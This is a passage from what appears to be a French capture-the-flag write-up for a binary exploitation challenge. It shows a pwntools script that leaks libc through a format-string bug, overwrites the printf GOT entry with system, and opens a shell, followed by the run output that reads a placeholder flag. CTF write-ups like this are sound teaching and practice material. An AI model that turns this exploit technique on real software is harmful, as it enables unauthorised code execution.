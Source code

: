 ```python
log.info("payload : %s" % fmt)

p.sendline(fmt)
data =  p.recvuntil(":")

data = data.strip().split("BBBB")[0].split("0")[-1]
l_printf = u64(data.ljust(8, "\x00"))
b_libc = l_printf - libc.sym.printf
libc.address = b_libc

log.info("leak printf: %s" % hex(l_printf))
log.info("leak libc  : %s" % hex(b_libc))
log.info("leak system: %s" % hex(libc.sym.system))

log.warning("stage #2 : exploitation.")

log.info("two write to make:")

first_write = int(hex(libc.sym.system)[-2:], 16)
second_write = int(hex(libc.sym.system)[-6:-2], 16)

log.info("1. [%s] => %s (%s)" % (hex(elf.got.printf), str(first_write), hex(first_write)))
log.info("2. [%s] => %s (%s)" % (hex(elf.got.printf +1), str(second_write), hex(second_write)))

exp = "%0{}x".format(first_write) 
exp += "%10$hn"
exp += "%0{}x".format(second_write - first_write)
exp += "%11$hn"
exp += "Z"*(31 - len(exp)) + "\x00"
exp += p64(elf.got.printf)
exp += p64(elf.got.printf + 1)
exp += "B"* (276 - len(exp))
exp += "AAAA" # just overwrite the stack canary 

p.sendline(exp)
p.sendline("/bin/sh")
p.interactive()
```

et si nous le lançons:
```
$ python exploit_v2.py 
[+] Starting local process '/.../CTF/redpwn/2020/pwn/dead-canary/bin/dead-canary': pid 14990
[!] stage #1 : leaks.
[*] __stack_chk_fail: 0x601028
[*] payload size : 272
[*] payload : %064x%11$n%01783x%12$hn%13$sBBBBBBBBBBB\x00\x10\x00\x00\x00\x10\x00\x00\x00\x10\x00\x00\x00CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC
[*] leak printf: 0x7ffff7a48e80
[*] leak libc  : 0x7ffff79e4000
[*] leak system: 0x7ffff7a33440
[!] stage #2 : exploitation.
[*] two write to make:
[*] 1. [0x601038] => 64 (0x40)
[*] 2. [0x601039] => 41780 (0xa334)
[*] Switching to interactive mode
 Hello 000000[...]00f7dd18c0ZZZZZZsh: 1: What: not found
sh: 1: Hello: not found
$ cat flag.txt
imflo{this_is_a_plaholder_flag}
$ 
[*] Interrupted
```